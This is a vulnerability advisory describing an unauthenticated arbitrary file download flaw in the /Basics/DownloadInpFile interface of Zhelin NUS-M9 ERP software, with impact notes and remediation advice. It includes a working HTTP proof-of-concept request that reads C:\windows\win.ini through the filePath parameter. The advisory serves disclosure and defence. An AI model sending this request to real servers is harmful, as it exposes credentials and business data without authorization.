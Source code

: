## Zhelin NUS-M9 ERP Management Software for the Mechanical Industry



**Arbitrary File Download Vulnerability in Zhelin NUS-M9 ERP Management Software Interface /Basics/DownloadInpFile**

## **Background** 

Zhelin Information Technology Co., Ltd. (abbreviated as Zhelin Software) is a high-tech internet data company focused on the mechanical industry, specializing in the development, consulting, implementation, and services of enterprise management information software platforms. One of its core products, the Zhelin NUS-M9 ERP management software for the mechanical industry, is widely used in industrial manufacturing. Recently, a severe arbitrary file download vulnerability was discovered in the **/Basics/DownloadInpFile** interface of this software.

## **Vulnerability Description**

This vulnerability allows unauthorized attackers to download any file on the server by manipulating interface requests. It typically occurs when the application fails to properly validate the file path provided by the user. By exploiting this vulnerability, attackers can access and download sensitive files from the system, such as configuration files, database backups, or other critical information, posing a significant security threat to the system.

## **Impact of the Vulnerability**

1. **Data Breach**: Attackers can download and steal sensitive files, such as user credentials, configuration files, or business data, leading to data breaches.
2. **System Compromise**: By obtaining critical configuration files or code, attackers may conduct further attacks, such as injecting malicious code or manipulating system behavior.
3. **Compliance Risks**: Incidents involving data breaches may violate data protection regulations, leading to legal liabilities and reputational damage.

## POC

![](1.png)

```http
GET /Basics/DownloadInpFile?filePath=C:\windows\win.ini HTTP/1.1
Host: 
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.93 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

```

![image.png](6.png)

## **Remediation Suggestions**

1. **Path Validation**: Implement strict validation and sanitization of the file path provided by the user to ensure only authorized files can be downloaded.
2. **Access Control**: Restrict the interface to allow access only to files within specific directories, preventing access to other critical directories of the system.
3. **Log Monitoring**: Enhance logging and monitoring of file download requests to detect and respond to abnormal behavior in a timely manner.
4. **Security Audits**: Conduct regular code audits and penetration testing to ensure that similar vulnerabilities can be discovered and fixed promptly.

**Conclusion:** The Zhelin NUS-M9 ERP management software plays a critical role in industrial manufacturing enterprises, making its security of utmost importance. By promptly fixing this arbitrary file download vulnerability, enterprises can effectively protect their data security and prevent potential attacks and data breach incidents.

